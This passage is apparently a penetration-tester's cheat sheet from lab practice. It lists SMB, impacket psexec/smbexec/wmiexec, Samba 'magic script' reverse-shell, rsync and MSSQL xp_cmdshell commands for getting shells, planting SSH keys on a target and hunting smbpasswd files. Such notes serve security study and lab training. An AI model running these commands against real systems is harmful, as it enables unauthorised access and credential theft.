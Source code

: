             - Windows
                > \\10.10.14.18\smb\file-to-download.exe
        - sambaclient
            > smbclient -U 'tyler%password' //10.10.10.97/newsite
                ( this may work too) > echo exit | smbclient -N -L \\\\10.10.10.10
            > put test.txt
            > get filetodownload.txt
        - psexec.py (requires a writable smb share, but will give shell. Requires user / password)
            > psexec.py active.htb/svc_tgs@10.10.10.100
        - smbexec.py (rpc and smb, but will give shell. Requires user / password)
            > smbexec.py active.htb/svc_tgs@10.10.10.100
        - wmiexec.py
            > wmiexec.py active.htb/svc_tgs@10.10.10.100 
        - magic script
            - links:
                - https://www.oreilly.com/openbook/samba/book/ch08_02.html
                - https://samba.samba.narkive.com/3wKX7vIg/magic-script-problem
            - You need to get access to /etc/samba/smb.conf. Check if "magic script" is used under a share
              if so you can upload a script with that name to any SUBDIRECTORY (Not root path)
            - create shell script to ping you
            - Connect with samba client with specific user
            - upload the script to a subdirectory, should run automatically, and then delete itself. 
              if the script is running a revrese shell, the script will remain until you close the session. 
        - Loook for smbpasswd files!

    - rsync(873) client commands:
        - Enumerate:
            > nc -nv 192.168.131.126 873
                - Banner should show, type same thing
                > @RSYNCD: 31.0
                > #list
                - Should list all directories
                - connect again, type banner, now type the shared folder name. if "@RSYNCD: OK" displays you can access without password
            > nmap -sV --script "rsync-list-modules" -p 873 192.168.131.126
        - Pull files
            > mkdir rsync/
            - The following will copy over all files and folders locally to your system
            - No password
                > rsync -av rsync://192.168.131.126/fox ./fox
            - With password
                > rsync -av rsync://username@192.168.131.126/fox ./fox
        - Put files
            > rsync -av home_user/.ssh/ rsync://192.168.131.126/fox/.ssh
        
    - ms sql client commands
        > sqsh -S 10.11.1.31 -U sa -P password -D database
        - Get a list of current databases
            > SELECT name FROM master.sys.databases
            > go
        - EXEC sp_databases
        - Manually enable sp_cmdshell
            1> SP_CONFIGURE 'show advanced options', 1
            2> go
            Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
            (return status = 0)
            1> reconfigure
            2> go
            1> SP_CONFIGURE 'xp_cmdshell', 1
            2> go
            Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
            (return status = 0)
            1> reconfigure